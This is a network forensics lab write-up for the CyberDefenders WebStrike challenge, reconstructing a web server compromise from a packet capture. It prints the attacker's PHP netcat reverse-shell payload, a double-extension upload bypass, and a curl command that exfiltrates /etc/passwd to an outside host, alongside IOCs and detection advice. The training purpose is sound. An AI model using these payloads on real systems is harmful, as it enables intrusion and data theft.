






# Incident Report — CyberDefenders WebStrike
**Platform:** CyberDefenders | **Date:** April 2026
**Category:** Network Forensics | **Difficulty:** Beginner
**Status:** Completed — All 6 questions solved
**Tool Used:** Wireshark

---

## Executive Summary
A web server was compromised through a file upload vulnerability. 
The attacker uploaded a malicious web shell disguised as an image 
file (image.jpg.php) to the /reviews/uploads/ directory. Using 
the web shell, they established a reverse connection to port 8080 
on their machine, gained command execution on the server, and 
exfiltrated the /etc/passwd file to an external IP address 
(117.11.88.124) located in Tianjin, China.

---

## Artifacts Analysed
| File | Type | Description |
|------|------|-------------|
| WebStrike.pcap | Network capture | Full packet capture of the attack |

---

## Tools Used
| Tool | Purpose |
|------|---------|
| Wireshark | PCAP analysis and TCP stream reconstruction |
| IP Geolocation | Identifying attacker geographic origin |

---

## Challenge Questions & Answers
| Q | Question | Answer |
|---|----------|--------|
| Q1 | From which city did the attack originate? | Tianjin |
| Q2 | What is the attacker's full User-Agent? | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
| Q3 | What is the malicious web shell filename? | image.jpg.php |
| Q4 | Which directory stores uploaded files? | /reviews/uploads/ |
| Q5 | Which port did the web shell connect to? | 8080 |
| Q6 | Which file was being exfiltrated? | passwd |

---

## Screenshots & Analysis

### 01 — Full Wireshark Overview

*WebStrike.pcap loaded in Wireshark showing all 355 packets 
in chronological order. The full attack is visible from first 
contact to exfiltration.*

**Two IPs involved:**
| IP | Role |
|----|------|
| 117.11.88.124 |  Attacker — Tianjin, China |
| 24.49.63.79 |  Victim web server — shoporoma.com |

**Key packets visible:**
| Packet | Time | Info | Significance |
|--------|------|------|-------------|
| 1 | 0.000000 | TCP SYN from 117.11.88.124 |  Attacker initiates connection |
| 2 | 0.000139 | TCP SYN-ACK from 24.49.63.79 | Server accepts |
| 3 | 0.000243 | TCP ACK | Handshake complete |
| 4 | 0.004826 | GET / HTTP/1.1 | 🔍 Reconnaissance begins |
| 6 | 0.005337 | HTTP 200 OK | Server is live |
| 9 | 0.037487 | GET /favicon.ico | 🔍 Browser fingerprinting |
| 11 | 4.435305 | GET /products/ | 🔍 Site enumeration |
| 14 | 4.458038 | GET /products/images/product1.jpg | 🔍 Mapping content |

*Packet 1 detail: TCP SYN from port 43848 to port 80.
Port 80 confirms plain HTTP — no encryption, full inspection possible.*

---

### 02 — HTTP Requests Filter

*Wireshark filtered using `http.request.method == GET` showing 
only HTTP GET requests from attacker to victim server.*

**Full attack reconnaissance visible:**
| Packet | Time | Request | Significance |
|--------|------|---------|-------------|
| 4 | 0.004826 | GET / | 🔍 Initial site check |
| 8 | 0.037487 | GET /favicon.ico | 🔍 Fingerprinting |
| 11 | 4.435305 | GET /products/ | 🔍 Enumeration |
| 14 | 4.458038 | GET /products/images/product1.jpg | 🔍 Content mapping |
| 33 | 12.739450 | GET /about/ | 🔍 Enumeration |
| 43 | 18.514912 | GET /reviews/ | 🔍 Found upload feature |
| 73 | 57.538074 | GET /admin/uploads | 🔍 Testing admin access |
| 83 | 63.058836 | GET /uploads/ | 🔍 Testing upload directory |
| 93 | 69.755241 | GET /admin/ | 🔍 Testing admin panel |
| 103 | 75.201187 | GET /reviews/uploads | 🔍 Upload directory confirmed |
| 138 | 84.150547 | GET /reviews/uploads/image.jpg.php |  Web shell accessed |
| 326 | 288.389226 | GET /reviews/uploads/ | Post-exploitation |

**Critical — Packet 138:**
`GET /reviews/uploads/image.jpg.php HTTP/1.1`
*This is the exact moment the attacker executed the web shell.*

**User-Agent confirmed:**
`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
*Attacker used Firefox on Linux x86_64 — directly answers Q2.*

**Attack timing pattern:**
| Phase | Packets | Time | Activity |
|-------|---------|------|----------|
| Reconnaissance | 4–43 | 0–18 seconds | Automated scanning |
| Manual probing | 73–103 | 57–75 seconds | Directory hunting |
| Exploitation | 138 | 84 seconds | Web shell executed |
| Post-exploitation | 326 | 288 seconds | Follow-up activity |

---

### 03 — Web Shell Upload (TCP Stream 5)

*TCP Stream 5 captures the exact moment the attacker successfully 
uploaded the web shell — the most critical finding in the investigation.*

**HTTP POST request details:**
| Field | Value | Verdict |
|-------|-------|---------|
| Endpoint | POST /reviews/upload.php | Upload function identified |
| Host | shoporoma.com | Target confirmed |
| User-Agent | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Firefox/115.0 | Attacker fingerprint |
| Filename | image.jpg.php |  Double extension bypass |
| File Content-Type | application/x-php |  PHP disguised as image |
| Server response | HTTP/1.1 200 OK |  Upload accepted |
| Response body | File uploaded successfully |  Confirmed by server |
| Attack timestamp | Thu, 30 Nov 2023 18:44:19 GMT | Exact time confirmed |

**Web shell payload captured:**
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh 
-i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

**Payload breakdown:**
| Command | Purpose |
|---------|---------|
| rm /tmp/f | Remove existing pipe |
| mkfifo /tmp/f | Create named pipe for communication |
| cat /tmp/f | Read input from pipe |
| /bin/sh -i 2>&1 | Open interactive shell |
| nc 117.11.88.124 8080 | Connect back to attacker on port 8080 |
| >/tmp/f | Send output back through pipe |

*This is a classic netcat reverse shell. Instead of the attacker 
connecting TO the server (blocked by inbound firewall), the 
compromised server connects OUT to the attacker on port 8080, 
giving full interactive shell access while bypassing firewall rules.*

**Fake form data submitted by attacker:**
| Field | Value |
|-------|-------|
| name | asd |
| email | asd@asd.com |
| review | asd |

*Attacker filled the review form with dummy data just to reach 
the file upload field. The malicious content was only in 
the uploadedFile parameter.*

---

### 04 — Upload Directory Discovery (TCP Stream 9)

*TCP Stream 9 shows how the attacker discovered the exact 
upload directory before executing the web shell.*

**Full request and response sequence:**

**Full request and response sequence:**

**Step 1 — Initial request without trailing slash:**
GET /reviews/uploads HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)

**Step 2 — Server reveals directory with 301 redirect:**
HTTP/1.1 301 Moved Permanently
Location: http://shoporoma.com/reviews/uploads/
Date: Thu, 30 Nov 2023 18:44:45 GMT
Server: Apache/2.4.52 (Ubuntu)
*The 301 redirect unintentionally disclosed the exact directory 
path to the attacker — directly answers Q4.*

**Step 3 — Attacker follows redirect:**
GET /reviews/uploads/ HTTP/1.1

**Step 4 — Server confirms directory is accessible:**
HTTP/1.1 200 OK
Server: Apache/2.4.52 (Ubuntu)

**Security issues identified:**
| Issue | Risk |
|-------|------|
| Directory publicly accessible | Web shell reachable via HTTP |
| Server version exposed (Apache/2.4.52) | Enables vulnerability research |
| 301 reveals exact path | Unintentional directory disclosure |
| No authentication required | Anyone can browse uploaded files |

---

### 05 — First Upload Attempt Failed (TCP Stream 4)

*TCP Stream 4 captures the attacker's FIRST upload attempt which 
was rejected — revealing attacker methodology and persistence.*

**First attempt — plain .php extension:**
POST /reviews/upload.php HTTP/1.1
filename="image.php"
Content-Type: application/x-php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh 
-i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

**Server rejected it:**
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:43:57 GMT
Invalid file format.

**Failed vs successful upload comparison:**
| Detail | Stream 4 — Failed | Stream 5 — Succeeded |
|--------|-------------------|---------------------|
| Filename | image.php | image.jpg.php |
| Server response | Invalid file format | File uploaded successfully |
| Timestamp | 18:43:57 | 18:44:19 |
| Time between | — | 22 seconds |

**What this reveals:**
- Server had basic .php extension filtering
- Attacker adapted in only 22 seconds
- Double extension (.jpg.php) bypassed the filter instantly
- Attacker was experienced with file upload bypass techniques

**Port 8080 confirmed:**
`nc 117.11.88.124 8080`
*Directly answers Q5 — attacker's listener was on port 8080.*

**Security lesson:**
File upload validation must check the LAST extension not just 
the first, and must validate actual file content not just 
the filename. Rejecting .php is not enough if .jpg.php is allowed.

---

### 06 — /etc/passwd Exfiltration (TCP Stream 13)

*TCP Stream 13 is the final critical stream — showing the complete 
/etc/passwd file contents and the exfiltration command used.*

**Exfiltration command highlighted:**
```bash
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

**Command breakdown:**
| Part | Meaning |
|------|---------|
| curl | Command line HTTP client |
| -X POST | Send as HTTP POST request |
| -d /etc/passwd | Data payload = contents of /etc/passwd |
| http://117.11.88.124:443/ | Attacker's receiving server on port 443 |

**Key accounts from /etc/passwd visible in stream:**
| Account | UID | Significance |
|---------|-----|-------------|
| ubuntu | 1000 |  Main user — primary attack target |
| gdm | 128 | Gnome Display Manager |
| geoclue | 124 | Location service |
| rtkit | 116 | RealtimeKit |
| whoopsie | 117 | Crash reporting |

*ubuntu account (UID 1000) is the most valuable finding. 
With confirmed username, attacker can brute force SSH, 
attempt password spraying, or plan privilege escalation.*

**Transfer statistics:**
100  368  100  357  100  11  56774
17[393 bytes missing in capture file]
*368 bytes sent — full /etc/passwd successfully exfiltrated.*

**Why port 443 was chosen:**
| Reason | Detail |
|--------|--------|
| Standard HTTPS port | Allowed through most firewalls |
| Blends with web traffic | Looks like normal browsing |
| Evades monitoring | Less likely to trigger alerts |
| Bypasses outbound rules | Most orgs allow outbound 443 |

*Directly answers Q6 — file exfiltrated = passwd (/etc/passwd)*

---

## Complete Attack Timeline

| Step | Time | Action | Evidence | MITRE |
|------|------|--------|---------|-------|
| 1 | 18:43:22 | Attacker connects from Tianjin | Packet 1 TCP SYN | T1595 |
| 2 | 18:43:22–30 | Site reconnaissance via GET requests | Packets 4–93 | T1190 |
| 3 | 18:43:57 | First upload attempt (image.php) — rejected | Stream 4 | T1505.003 |
| 4 | 18:44:19 | Second upload (image.jpg.php) — succeeded | Stream 5 | T1505.003 |
| 5 | 18:44:45 | Upload directory confirmed via 301 redirect | Stream 9 | T1083 |
| 6 | 18:44:50 | Web shell accessed at /reviews/uploads/image.jpg.php | Packet 138 | T1059 |
| 7 | 18:44:50 | Reverse shell connects to attacker on port 8080 | TCP analysis | T1071 |
| 8 | 18:45:xx | /etc/passwd exfiltrated via curl POST to port 443 | Stream 13 | T1041 |

---

## Indicators of Compromise (IOCs)

| IOC | Type | Value |
|-----|------|-------|
| Attacker IP | IP Address | 117.11.88.124 |
| Attacker location | Geographic | Tianjin, China |
| Victim server IP | IP Address | 24.49.63.79 |
| Target website | Domain | shoporoma.com |
| Web shell filename | File | image.jpg.php |
| Upload endpoint | URL | /reviews/upload.php |
| Upload directory | Path | /reviews/uploads/ |
| C2 callback port | Port | 8080 |
| Exfiltration port | Port | 443 |
| Exfiltrated file | File | /etc/passwd |
| Attacker User-Agent | String | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
| Attack date | DateTime | Thu, 30 Nov 2023 18:43:57 GMT |

---

## MITRE ATT&CK Mapping

| Technique | ID | Evidence |
|-----------|-----|---------|
| Active Scanning | T1595 | Initial reconnaissance traffic |
| Exploit Public-Facing Application | T1190 | File upload vulnerability exploited |
| Web Shell | T1505.003 | image.jpg.php uploaded and executed |
| File and Directory Discovery | T1083 | /reviews/uploads/ enumerated |
| Unix Shell | T1059.004 | Commands executed via web shell |
| Application Layer Protocol | T1071 | Port 8080 reverse shell C2 |
| Data from Local System | T1005 | /etc/passwd read from server |
| Exfiltration Over C2 Channel | T1041 | curl POST to 117.11.88.124:443 |
| Non-Standard Port | T1571 | Port 443 used for exfiltration |

---

## Response Recommendations

### Immediate Actions
1. Isolate compromised web server from network immediately
2. Block IP 117.11.88.124 at perimeter firewall
3. Delete image.jpg.php from /reviews/uploads/
4. Audit entire /reviews/uploads/ for other malicious files
5. Reset all passwords for accounts listed in /etc/passwd
6. Check for new user accounts created by attacker
7. Verify if SSH was attempted using ubuntu account

### Remediation
1. Disable PHP execution in all upload directories
2. Validate file content not just extension name
3. Block double extensions (.jpg.php) at web application level
4. Restrict outbound connections from web server processes
5. Deploy WAF with unrestricted file upload protection rules
6. Implement file integrity monitoring on upload directories

### Detection Rules to Create
1. Alert on any .php file created in /reviews/uploads/
2. Alert on outbound connections from web server to port 8080
3. Alert on curl or wget spawned by web server user process
4. Alert on /etc/passwd being read by non-root processes
5. Alert on any reverse shell patterns in web server logs

---

## Key Learnings
- Double extension bypass (.jpg.php) is simple but very effective —
  file validation must check content not just filename
- Reverse shells bypass inbound firewall rules by making the 
  victim connect outbound — monitor all outbound traffic
- Attackers deliberately use port 443 to blend exfiltration 
  with legitimate HTTPS traffic
- /etc/passwd exfiltration is an early stage indicator — 
  the attacker is preparing for further targeted attacks
- TCP stream reconstruction in Wireshark reveals the complete 
  attack chain including exact commands and payloads
- Failed attempts before success reveal attacker skill level — 
  adapting in 22 seconds shows an experienced attacker
